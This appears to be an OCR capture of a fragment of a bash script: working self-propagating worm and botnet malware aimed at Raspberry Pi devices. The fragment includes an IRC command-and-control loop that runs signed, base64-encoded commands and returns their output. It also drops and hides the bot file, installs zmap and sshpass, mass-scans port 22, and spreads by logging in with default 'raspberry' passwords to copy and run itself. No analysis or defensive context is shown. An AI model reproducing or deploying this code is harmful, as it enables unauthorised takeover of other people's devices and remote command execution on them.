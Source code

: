 ```bash
      fi
    elif [[ "$msg_in" =~ "PRIVMSG" ]] ; then
      privmsg_h=$(echo $msg_in| cut -d':' -f 3)
      privmsg_data=$(echo $msg_in| cut -d':' -f 4)
      privmsg_nick=$(echo $msg_in| cut -d':' -f 2 | cut -d'!' -f 1)

      hash=`echo $privmsg_data | base64 -d -i | md5sum | awk -F' ' '{print $1}'`
      sign=`echo $privmsg_h | base64 -d -i | openssl rsautl -verify -inkey /tmp/public.pem -pubin`

      if [[ "$sign" == "$hash" ]] ; then
        CMD=`echo $privmsg_data | base64 -d -i`
        RES=`bash -c "$CMD" | base64 -w 0`
        eval 'printf "PRIVMSG $privmsg_nick :$RES\r\n" >&3;'
        if [[ ! "$?" -eq 0 ]] ; then
          break
        fi
      fi
    fi
  done
done
EOFMARKER

chmod +x /tmp/$BOT
nohup /tmp/$BOT 2>&1 > /tmp/bot.log &
rm /tmp/nohup.log -rf
rm -rf nohup.out
sleep 3
rm -rf /tmp/$BOT

NAME=`mktemp -u 'XXXXXXXX'`

date > /tmp/.s

apt-get update -y --force-yes
apt-get install zmap sshpass -y --force-yes

while [ true ]; do
  FILE=`mktemp`
  zmap -p 22 -o $FILE -n 100000
  killall ssh scp
  for IP in `cat $FILE`
  do
    sshpass -praspberry scp -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no $MYSELF pi@$IP:/tmp/$NAME  && echo $IP >> /opt/.r && sshpass -praspberry ssh pi@$IP -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no "cd /tmp && chmod +x $NAME && bash -c ./$NAME" &
    sshpass -praspberryraspberry993311 scp -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no $MYSELF pi@$IP:/tmp/$NAME  && echo $IP >> /opt/.r && sshpass -praspberryraspberry993311 ssh pi@$IP -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no "cd /tmp && chmod +x $NAME && bash -c ./$NAME" &
  done
  rm -rf $FILE
  sleep 10
done

fi
```
